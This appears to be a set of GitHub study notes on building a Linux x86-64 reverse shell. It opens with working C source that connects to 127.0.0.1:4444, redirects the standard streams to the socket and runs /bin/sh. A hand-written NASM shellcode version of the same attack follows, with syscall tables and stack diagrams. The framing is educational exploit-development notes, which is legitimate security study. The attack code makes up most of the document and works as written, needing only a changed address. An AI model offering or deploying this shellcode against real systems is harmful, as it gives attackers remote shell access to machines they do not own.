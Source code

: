 # 🐚 Reverse Shell: C to Assembly Notes

## 📌 Objective

Create a reverse shell that:

1. Connects to a remote attacker via TCP.
2. Redirects standard input/output/error to the socket.
3. Spawns a shell (`/bin/sh`).

---

## 🧠 Original C Code

```c
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main() {
    int socketfd = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = inet_addr("127.0.0.1");

    connect(socketfd, (struct sockaddr *)&addr, sizeof(addr));

    dup2(socketfd, 0);
    dup2(socketfd, 1);
    dup2(socketfd, 2);

    execve("/bin/sh", NULL, NULL);
}
```

---

## 🧾 Assembly (x86-64, Linux)

```nasm
section .text
    global _start
_start:

    ; socket(AF_INET, SOCK_STREAM, 0)
    xor     rax, rax
    mov     al, 41            ; syscall: socket
    xor     rdi, rdi
    mov     dil, 2            ; AF_INET
    xor     rsi, rsi
    mov     sil, 1            ; SOCK_STREAM
    xor     rdx, rdx          ; protocol 0
    syscall                   ; return: sockfd → rax

    ; connect(sockfd, struct sockaddr*, addrlen)
    mov     rdi, rax          ; sockfd → arg1

    xor     rbx, rbx
    mov     ebx, 0x0100007F   ; 127.0.0.1 (little endian)
    push    rbx
    push    word 0x5C11       ; port 4444 (0x115C) htons
    push    word 2            ; AF_INET (sa_family)
    xor     rsi, rsi
    mov     rsi, rsp          ; pointer to sockaddr_in → arg2
    xor     rdx, rdx
    mov     dl, 16            ; size of sockaddr_in → arg3
    xor     rax, rax
    mov     al, 42            ; syscall: connect
    syscall

    ; dup2(sockfd, 0), dup2(sockfd, 1), dup2(sockfd, 2)
    xor     rsi, rsi
.dup_loop:
    xor     rax, rax
    mov     al, 33            ; syscall: dup2
    syscall
    inc     rsi
    cmp     rsi, 3
    jne     .dup_loop

    ; execve("/bin/sh", NULL, NULL)
    xor     rax, rax
    push    rax               ; null terminator
    mov     rbx, 0x68732f6e69622f2f ; "//bin/sh"
    push    rbx
    mov     al, 59            ; syscall: execve
    mov     rdi, rsp          ; filename
    xor     rsi, rsi          ; argv
    xor     rdx, rdx          ; envp
    syscall
```

---

## 🧮 Syscall Reference Table

| Function    | Syscall # | rdi (arg1)          | rsi (arg2)            | rdx (arg3)      |
| ----------- | --------- | ------------------- | --------------------- | --------------- |
| `socket()`  | 41        | domain (AF\_INET=2) | type (SOCK\_STREAM=1) | protocol (0)    |
| `connect()` | 42        | socketfd            | struct sockaddr ptr   | length (16)     |
| `dup2()`    | 33        | oldfd               | newfd                 | -               |
| `execve()`  | 59        | filename ptr        | argv ptr (NULL)       | envp ptr (NULL) |

---

## 📊 Stack Visualization

### `sockaddr_in` (pushed on stack, 16 bytes)

```
Top of stack →
+-------------------+
| sa_family = 0x02  |  (word)
+-------------------+
| sin_port = 0x115C |  (word) → 4444 (network byte order)
+-------------------+
| sin_addr = 0x7F000001 | → 127.0.0.1 (little endian)
+-------------------+
```

### `execve("/bin/sh", NULL, NULL)`

```
Top of stack →
+---------------------+
| 0x00 (null)         |  ← null terminator
+---------------------+
| "//bin/sh"          |  ← pushed as qword
+---------------------+
```

---

## 🧠 Notes on Register Usage

| Register | Purpose                          |
| -------- | -------------------------------- |
| **rax**  | Syscall number                   |
| **rdi**  | 1st syscall argument             |
| **rsi**  | 2nd syscall argument             |
| **rdx**  | 3rd syscall argument             |
| **rsp**  | Stack pointer                    |
| **rbx**  | Temporary register for data prep |




